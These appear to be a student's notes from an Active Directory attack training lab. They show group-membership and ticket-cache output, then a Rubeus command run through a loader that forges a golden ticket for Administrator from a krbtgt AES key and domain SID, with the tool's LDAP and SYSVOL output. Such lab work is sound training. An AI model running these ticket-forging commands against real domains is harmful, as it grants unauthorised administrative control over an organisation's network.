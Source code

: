 ![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
```